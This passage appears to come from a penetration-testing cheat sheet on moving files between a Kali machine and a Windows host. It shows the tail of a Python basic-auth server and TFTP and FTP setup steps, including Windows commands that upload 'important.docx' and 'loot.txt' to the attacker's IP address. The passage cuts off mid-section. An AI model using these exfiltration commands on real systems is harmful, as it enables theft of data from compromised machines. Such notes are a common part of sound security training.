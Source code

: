 ```python
    httpd.serve_forever()
    #BaseHTTPServer.test(HandlerClass, ServerClass)

if __name__ == '__main__':
    if len(sys.argv)<3:
        print "usage SimpleAuthServer.py [port] [username:password]"
        sys.exit()
    key = base64.b64encode(sys.argv[2])
    print key
    test()

```

---
		
## Uploading files using TFTP

 
On Kali Linux:

	sudo apt update && sudo apt install atftp
	sudo mkdir /tftp
	sudo chown nobody: /tftp
	sudo atftpd --daemon --port 69 /tftp

On Windows Host:

	tftp -i 10.11.0.4 put important.docx

---
		
## Uploading files using FTP

 
On Kali Linux:

	sudo apt-get install pure-ftpd 
    sudo systemctl restart pure-ftpd
	
On Windows Host:

	 echo open 192.168.46.11 21> ftp.txt
	 echo USER kali>> ftp.txt
	 echo kali>> ftp.txt
	 echo cd /ftphome >> ftp.txt
	 echo put loot.txt >> ftp.txt
	 echo bye >> ftp.txt
	 
	 ftp -v -n -s:ftp.txt

---

## Downloading files using FTP

On Kali Linux:
